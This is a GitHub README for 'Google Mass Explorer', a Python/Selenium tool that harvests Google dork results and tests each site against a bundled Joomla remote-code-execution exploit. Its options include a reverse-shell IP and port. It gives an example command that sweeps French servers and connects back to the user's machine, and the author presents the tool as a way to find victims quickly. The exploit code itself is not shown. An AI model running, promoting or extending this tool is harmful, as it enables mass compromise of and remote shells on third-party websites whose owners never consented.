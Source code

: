 [+] Google Mass Explorer
This is a automated robot for google search engine.

Make a google search, and parse the results for a especific exploit you define.
The options can be listed with --help parameter.

Intro:
This project is a main project that i will keep upgrading when new exploits are published. They idea is use google search engine to find vulnerable targets, for specific exploits. The exploits parsers will be concentrated in google_parsers module. So when you make a search, you can choose explicit in "--exploit parser" argument, a especific exploit to the robot test if is the targets are vulnerable for that or not.
*** Is very important you use the right dork for the specific exploit.

The google parsers module (google_parsers.py) is the file that i will keep upgrading. For this version i'm putting just the joomla cve exploit. I have a wordpress bot too, but the ideia is you make your own parsers =))) If you have difficul to make, just send me the exploit and we make together =))

I make this google explorer because i'm very busy, and take to much time to search for targets in google manually. So I use a automated framework (Selenium) to make a robot to search for targets for me ;)) The problem using other libs and modules, is the captcha from google, and using Selenium, you can type the captcha when it is displayed, and the robots keeps crawling with no problem =)) This was the only way i find out to "bypass" this kind of protection... After it work, i decide to publish to everyone.

Basictly, how the robot works:
1 - Make a google search
2 - Parse the from each page results
3 - Test if each target is vulnerable for a specific exploit.

Requiriments:
-----> !!!!!! PYTHON 3  !!!!!! <------ THIS PROJECT IS ONLY FOR PYTHON 3 !!!!!!! 
The requirements is in requirements.txt file, you should install what is listed on it with: 
$ sudo pip install -R requirements.txt

These are some exemples that you can use, and make your own:

python3 google_explorer.py --dork="site:*.com inurl:index.php?option=" --browser="chrome" --exploit_parser="joomla_15_12_2015_rce" --revshell="MY_PUBLIC_IP" --port=4444 --google_domain="google.com" --location="França" --last_update="no último mês"

On this exemple, im looking for servers in France, vulnerables to joomla RCE, using google.com domain as google search (they are listed in google_doomais.txt file), with last update on last month.

All these options are possible to any language, it will depends only in what google use for syntax for your country..

I have some old videos on my channel on youtube showing how it works, so take a look at the description of the olders projects in github if you need some video exemples ;))


These are the current options for this project:

Usage:

    google_explorer.py --dork=<arg> --browser=<arg> [--exploit_parser=<arg>] [--language=<arg>]
                                                    [--location=<arg>]       [--last_update=<arg>]
                                                    [--revshell=<arg>]       [--port=<arg>]
                                                    [--google_domain=<arg>]

    google_explorer.py --help
    google_explorer.py --version

Options:

    -h --help                                Open help menu
    -v --version                             Show version

Required options:

    --dork='google dork'                     your favorite g00gle dork :)
    --browser='browser'                      chrome
                                             chromium


Optional options:

    --language='page language'               Portuguese
                                             English
                                             Arabic
                                             Romanian
                                             ...
                                             ...
    
    --location='server location'             Brazil
                                             Mauritania
                                             Tunisia
                                             Marroco
                                             Japan
                                             ...
                                             ...
    
    --last_update='page last update'         anytime
                                             past 24 hours
                                             past week
                                             past month
                                             past year

    --exploit_parser='Name or CVE exploit'   joomla_15_12_2015_rce

    --revshell='IP'                          public ip for reverse shell
    --port='PORT'                            port for back connect

    --google_domain='google domain'          google domain to use on search. Ex: google.co.uk







